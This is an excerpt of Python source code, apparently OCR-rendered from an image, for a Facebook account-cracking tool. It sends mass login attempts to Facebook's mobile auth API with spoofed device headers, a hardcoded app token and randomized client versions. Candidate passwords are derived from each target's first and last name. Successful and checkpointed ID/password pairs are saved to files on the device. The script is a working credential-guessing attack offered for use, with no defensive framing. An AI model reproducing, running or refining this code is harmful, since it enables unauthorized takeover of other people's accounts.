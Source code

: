                                         'generate_analytics_claim':'1',
                                        'generate_machine_id':'1',
                                        "locale":"en_US","client_country_code":"US",
                                        'device':gtt,
                                        'device_id':adid,
                                        "method": "auth.login",
                                        "fb_api_req_friendly_name": "authenticate",
                                        "fb_api_caller_class": "com.facebook.account.login.protocol.Fb4aAuthHandler"}
                                head = {
                                        'content-type':'application/x-www-form-urlencoded',
                                        'x-fb-sim-hni':str(random.randint(2e4,4e4)),
                                        'x-fb-connection-type':'unknown',
                                        'Authorization':'OAuth 350685531728|62f8ce9f74b12f84c123cc23437a4a32',
                                        'user-agent':ua_string,
                                        'x-fb-net-hni':str(random.randint(2e4,4e4)),
                                        'x-fb-connection-bandwidth':str(random.randint(2e7,3e7)),
                                        'x-fb-connection-quality':'EXCELLENT',
                                        'x-fb-friendly-name':'authenticate',
                                        'accept-encoding':'gzip, deflate',
                                        'x-fb-http-engine':     'Liger'}
                                url = 'https://b-api.facebook.com/method/auth.login'
                                po = requests.post(url,data=data,headers=head,allow_redirects=False).text
                                q = json.loads(po)
                                if 'session_key' in q:
                                        print('\r\r\033[1;32m [SK-OK] '+ids+' | '+pas+'\033[1;97m')
                                        open('/sdcard/Sk-OK.txt','a').write(ids+'|'+pas+'\n')
                                        oks.append(ids)
                                        break
                                elif 'www.facebook.com' in q['error_msg']:
                                        if 'y' in pcp:
                                                print('\r\r\x1b[38;5;208m [SK-CP] '+ids+' | '+pas+'\033[1;97m')
                                                open('/sdcard/SKSobuj-CP.txt', 'a').write(ids+'|'+pas+'\n')
                                                cps.append(ids)
                                                break
                                else:
                                        continue
                        loop+=1
                except requests.exceptions.ConnectionError:
                        time.sleep(10)
                except Exception as e:
                        pass
def api1(ids,names,passlist):
                try:
                        global ok,loop
                        sys.stdout.write('\r\r\033[1;37m [SK-XD] %s|\033[1;32mOK:-%s \033[1;37m'%(loop,len(oks)));sys.stdout.flush()
                        fn = names.split(' ')[0]
                        try:
                                ln = names.split(' ')[1]
                        except:
                                ln = fn
                        for pw in passlist:
                                pas = pw.replace('first',fn.lower()).replace('First',fn).replace('last',ln.lower()).replace('Last',ln).replace('Name',names).replace('name',names.lower())
                                application_version = str(random.randint(111,555))+'.0.0.'+str(random.randrange(9,49))+str(random.randint(111,555))
                                application_version_code=str(random.randint(000000000,999999999))
                                fbs=random.choice(fbks)
                                gtt=random.choice(xxxxx)
                                gttt=random.choice(xxxxx)
                                android_version=str(random.randrange(6,13))